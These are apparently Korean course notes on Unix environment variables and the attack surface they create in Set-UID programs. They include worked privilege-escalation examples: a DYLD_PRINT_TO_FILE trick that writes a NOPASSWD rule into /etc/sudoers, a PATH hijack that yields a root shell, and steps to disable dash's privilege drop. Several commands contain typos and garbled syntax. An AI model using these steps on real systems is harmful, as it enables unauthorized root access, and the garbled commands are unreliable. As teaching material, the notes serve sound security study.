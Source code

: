 - 환경변수
	- 동적으로 명명된 값의 집합
	- 어떤 프로세스가 실행되는 운영 환경의 일부
	- 실행 중인 프로세스의 동작에 영향을 줌
	- PATH 변수가 있으며, 프로그램 실행 전체 경로가 제공되지 않으면 쉘 프로세스가 프로그램의 위치를 찾기 위해 PATH 사용
	- 프로세스는 fork() 시스템 호출을 사용해 새 프로세스가 생성될 때 부모의 환경 변수를 상속하거나, execve() 시스템 호출을 사용해 메모리 공간을 새 프로그램 데이터로 덮어 씌우며 환경변수를 초기화함
	- execve() 호출시 환경변수 전달 가능
	- 환경변수는 초기에 스택에 저장되며, main() 호출전에 스택에 푸시됨
	- envp와 environ은 초기에 동일 위치를 가리키지만, envp는 main() 함수 내에서만 접근 가능하며 environ은 전역변수임
	- 환경변수에 대한 메모리 위치 변경 시 environ 변경 가능
	- 쉘 변수는 쉘에서 사용되는 내부 변수, 사용자가 할당 및 삭제 가능
- 환경 변수 접근 방법
	- main() 파라미터 통해 접근 (char* envp[])
	- 전역변수 사용해 접근 (extern char** environ)
- 프로세스가 환경 변수를 얻는 방법
	- fork() 시스템 호출을 사용해 자식은 부모의 환경 변수를 상속받음
	- 프로세스가 자체적으로 새 프로그램을 실행 할 때, execve()를 이용해 시스템 호출. 이때 프로세스 메모리 공간이 새 프로그램 데이터로 덮어 씌워지며 이전 환경변수 손실. 
	  execve()는 int execve(const char* filename, char* const argv[], <<char* const envp[]>>)를 이용해 환경 변수 전달 가능
- 환경 변수의 메모리 할당
	- 환경 변수는 초기에 메모리의 stack에 저장
	- heap은 malloc, new등으로 동적 메모리 관리
	- main() 호출 전에, 환경 변수들은 스택에 푸시됨
	- 환경 변수들은 스택에 저장된 포인터 배열을 이용해 실제 환경변수 문자열 가리킴
	- main() 함수의 스택 프레임에 위치한 환경 변수들은 main() 함수 내에서 사용됨
	- envp와 environ은 초기에 동일한 위치를 가리킴
	- envp는 main() 함수 내에서만 접근 가능한 지역변수 이며, environ은 전역변수
	- 환경 변수가 변경 되어 환경변수 저장 위치가 heap으로 이동할 때, environ은 가변, envp는 불변
	  → 최신의 환경변수에 접근 위해선 envp보단 environ 포인터 사용이 바람직
- 쉘 변수와 환경 변수
	- 쉘 변수
		- 쉘 내부에서 사용되는 내부 변수
		- 사용자가 생성, 할당 및 삭제 가능
	- 환경 변수
		- 프로세스의 실행 환경에 영향을 주는 동적으로 명명된 값의 집합
		- 프로세스의 동작 방식을 조절
		- 프로그램 실행 시 중요한 역할
- /proc file system
	- /proc 파일 시스템은 커널 및 프로세스 정보 실행중인 프로세스에 대한 데$이터가 저장) 제공
	- strings /proc/ $ /environ 명령어를 통해 현재 프로세스의 환경 변수 출력 가능
- 쉘 변수와 환경 변수 - 이어서
	- 쉘 변수와 환경 변수는 다르다
	- 쉘 프로그램 실행 시 ,쉘 변수로 환경 변수가 복사된다. 쉘 변수 변경은 환경 변수에 영향을 주지 않는다.
```shell 
$ strings /proc/&&/environ | grep LOGNAME
LOGNAME = seed -> 환경변수
$ ehco $LOGNAME
seed -> 쉘변수
$ LOGNAME = bob -> 환경변수 LOGNAME 변경
$ echo $LOGNAME
bob
$ strings /proc/$$/environ | grep LOGNAME
LOGNAME = seed -> 환경변수는 영향없음
$ unset LOGNAME -> 쉘변수 초기화
$ echo $LOGNAME

$ strings /proc/$$/environ | grep LOGNAME
LOGNAME = seed -> 환경변수는 영향없음
```
- 쉘 변수가 자식 프로세스의 환경 변수에 미치는 영향
	- 부모 프로세스의 쉘 변수 중 부모의 환경변수 사본 쉘 변수와, exported shell 변수가 자식으로 전달된다.
	- not exported shell 변수와 predefined shell 변수는 자식에게 전달되지 않는다.
```shell
$ strings /proc/$$/environ | grep LOGNAME
LOGNAME = seed
$ LOGNAME2 = alice
$ export LOGNAME3 = bob 
-> exported shell variable
$ env | grep LOGNAME 
-> 현재 환경변수 보여주는 명령어: 쉘은 새로운 자식 프로세스를 생성해 환경 변수 출력
LOGNAME = seed
LOGNAME3 = bob
$ unset LOGNAME 
-> LOGNAME 쉘 변수 할당 해제
$ env | grep LOGNAME
LOGNAME3 = bob
```
- 환경 변수로 인한 공격 표면
	- 환경 변수의 숨겨진 사용은 위험
	- 사용자가 환경 변수를 설정할 수 있으므로 ,환경변수는 SUID 프로그램에서의 공격표면이 된다
	- 외부 라이브러리 함수 코드를 로딩하는 Linker, Library, External Program, Application Code등이 공격 표면이 될 수 있음
- Linker를 이용한 공격
	- 외부 라이브러리를 로드하는 과정에서 공격 발생가능
	- Dynamic Linking
		- 프로그램 실행 시 linking
		- gcc -o hello hello.c
		- 환경 변수를 사용하며, 그것이 공격표면화
		- 메모리 낭비 없음
		- 하지만 프로그램의 일부는 컴파일 시 정해지지 않은 상태이다
		- 동적 라이브러리가 실행 중에 로드되기에 악의적 코드 삽입 가능성
	- Static Linking
		- 컴파일시 linking
		- gcc -static -o hello hello.c
		- 컴파일 시 라이브러리를 프로그램에 직접 포함
		- 다이나믹 프로그램에 비해 100배 크다
		- 메모리 낭비가 심하다
		- 라이브러리 코드 업데이트 시 모든 프로그램은 패치가 필요하다
- Dynamic Linker 공격 - Case 1
	- 링커는 LD_PRELOAD 환경변수에서 라이브러리 우선 검색
	- 못 찾으면 LD_LIBRARY_PATH에서 검색
	- 두 변수는 사용자가 설정 가능하므로 프로그램이 SUID 프로그램이라면 보안 위반으로 이어짐
	- Normal Programs
		- 동적 링킹된 sleep 함수를 프로그램이 호출할 때, 공격자는 자체 sleep()함수를 구현하고, 해당 공유 라이브러리를 LD_PRELOAD 환경변수에 추가함으로써 악의적인 코드 삽입 가능
	- SUID Programs
		- 위의 기법이 SUID 프로그램에서 작동 시 매우 위험
		- 그러나 SUID 프로그램은 LD_PRELOAD 및 LD_LIBRARY_PATH 환경 변수를 무시하는 동적 링커의 대책이 적용되어있어, sleep()함수가 호출되지 않을 수 있음
```shell
$ cp /usr/bin/env ./myenv
$ sudo chown root myenv
$ sudo chmod 4755 myenv

$ env | grep LD_
LD_LIBRARY_PATH = .
LD_MYOWN = my own value
$ myenv | grep LD_
LD_MYOWN = my own value
-> SUID 프로그램에서는 LD_PRELOAD 및 LD_LIBRARY_PATH의 대책이 적용되어 있음!
```
- Dynamic Linker 공격 - Case 2
	- OS X의 동적링커 사례
	- DYLD_PRINT_TO_FILE 환경변수는 사용자가 dyld에 파일 이름을 제공할 수 있게 하며, SUID 프로그램에서는 사용자가 보호된 파일에 쓰기 권한을 가지게 함. 이로 인해 파일 디스크립터가 닫히지 않는 Capability Leaking 발생 가능
	- 과정
	1. DYLD_PRINT_TO_FILE를 /etc/sudoers로 설정
	2. Bob의 계정으로 전환하기 위해 su를 실행
	3. su를 실행하는 동안 dyld가 실행됨
	4. su가 Set-UID root 프로그램이므로 dyld도 root 권한으로 실행되어 /etc/sudoers를 성공적으로 쓰기 모드로 엽니다
	5. echo 명령어를 사용하여 /etc/sudoers에 쓰기
	6. 여기서 "3"은 /etc/sudoers의 쓰기용 파일 디스크립터를 나타냅니다
	7. 결과적으로 bob은 sudo를 사용하여 root로서 어떤 명령어든 실행할 수 있습니다.
```shell
$ DYLD_PRINT_TO_FILE = /etc/sudoers
$ su bob
password:
$ echo "bob ALL = (ALL) NOPASSWD:ALL" >& 3
```
- 외부 프로그램을 통한 공격
	- 어플리케이션이 외부 프로그램을 호출 시, 환경 변수 사용 가능성 존재
	- 공격표면 - prog_a가 pro_b를 호출할 때
		- execve()사용 : prog_a와 prog_b의 합집합
		- system()사용 : prog_a, prog_B, 쉘 프로그램(bash 등)의 합집합
		- 결과적으로, execve()는 쉘을 호출하지 않으며, 환경변수의 영향을 받지 않으므로 특권 프로그램에서 외부 프로그램을 호출할 때는 execve()를 사용해야 쉘을 거치지 않고 직접 실행되므로 안전하다
	- 예시 (PATH 변수 조작)
```c
vulnerable.c

int main(){
	system("cal");
}

cal.c -> 공격자에 의해 작성된 코드

int main(){
	system("/bin/dash/");
}
```

```shell
$ gcc -o vul vulnerable.c
$ sudo chown root vul
$ sudo chmod 4755 vul
$ vul
달력 출력

$ gcc -o cal cal.c
$ export PATH = .:$PATH
$ vul
#
#
쉘(/bin/dash) 실행 -> 공격 성공
$ prid
ruid = seed euid = root
```
	- /bin/dash에 의한 자동 권한 하향을 비활성화하기 위해 다음 작업 수행해야 함
```shell
$ sudo ln -sf /bin/zsh /bin/sh
-> zsh로 기본 쉘 변경
$ sudo ln -sf /bin/dash /bin/sh
-> 원래로 돌아가려면 이것을
```
- 라이브러리를 통한 공격
	- 프로그램은 외부 라이브러리의 함수를 사용하기도 함
	- 이런 함수가 환경변수를 사용하면, 공격표면 추가
- 라이브러리를 통한 공격 - Case Locale in UNIX
	- 메시지 출력마다, 프로그램은 번역된 메시지 위해 라이브러리 함수 사용
	- UNIX는 libc 라이브러리의 gettext()와 catopen() 사용
